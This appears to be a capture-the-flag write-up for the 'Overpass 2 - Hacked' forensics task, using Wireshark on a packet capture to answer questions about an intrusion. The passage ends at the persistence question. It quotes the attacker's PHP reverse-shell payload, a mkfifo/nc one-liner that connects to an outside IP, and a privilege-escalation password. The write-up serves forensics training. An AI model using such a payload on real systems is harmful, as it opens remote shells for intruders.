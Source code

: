# Overpass 2 - Hacked

## Description

Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

# [Task 1] Forensics - Analyse the PCAP

## Description

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

## 1.1 - What was the URL of the page they used to upload a reverse shell?

Let's lunch `wireshark` and start analysing the pcap file provided for us.

We start from **"tcp.stream eq 0"** and move on from there.

<p align="center"><img src="./files/q11.png"></p>

Here we can see the directory and the URL that they used to upload the reverse shell from.

Answer: `/development/`

## 1.2 - What payload did the attacker use to gain access?

We can see the payload in **"tcp.stream eq 1"**

<p align="center"><img src="./files/q12.png"></p>

Answer: `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

## 1.3 - What password did the attacker use to privesc?

If you go to **"tcp.stream eq 3"**, you can see the commands that the attacker has executed via the reverse shell.

<p align="center"><img src="./files/q13.png"></p>

Answer: `whenevernoteartinstant`

## 1.4 - How did the attacker establish persistence?
